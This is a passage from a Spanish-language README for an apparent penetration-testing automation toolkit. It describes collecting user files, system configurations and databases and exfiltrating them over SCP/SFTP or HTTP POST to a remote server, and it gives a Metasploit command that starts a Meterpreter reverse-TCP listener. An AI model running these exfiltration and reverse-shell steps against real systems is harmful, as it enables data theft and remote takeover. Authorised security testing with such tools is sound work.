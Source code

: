#### Técnicas Implementadas

1. **Recopilación de Datos**
   - Archivos de usuario
   - Configuraciones del sistema
   - Logs de aplicaciones
   - Bases de datos

2. **Compresión**
   - ZIP con compresión máxima
   - Eliminación de duplicados
   - Optimización de estructura

3. **Exfiltración**
   - SCP/SFTP
   - HTTP POST
   - DNS tunneling (futuro)

#### Configuración Específica

```json
{
  "exfiltration": {
    "remote_server": "192.168.1.200",
    "remote_user": "pentest",
    "remote_path": "/tmp/exfiltrated_data",
    "compression": true,
    "encryption": false
  }
}
```

## Configuración Avanzada

### Variables de Entorno

```bash
# Configuración de red
export PENTEST_INTERFACE=eth0
export PENTEST_TARGET_NETWORK=192.168.1.0/24

# Configuración de Metasploit
export MSF_DATABASE_CONFIG=/opt/metasploit/database.yml
export MSF_LOGFILE=/var/log/metasploit.log

# Configuración de logging
export PENTEST_LOG_LEVEL=DEBUG
export PENTEST_LOG_FILE=/var/log/pentest.log
```

### Configuración de Herramientas

#### Metasploit
```bash
# Inicializar base de datos
sudo msfdb init

# Configurar workspace
msfconsole -q -x "workspace -a pentest_automation; exit"

# Configurar listeners
msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST 192.168.1.50; set LPORT 4444; exploit -j; exit"
```
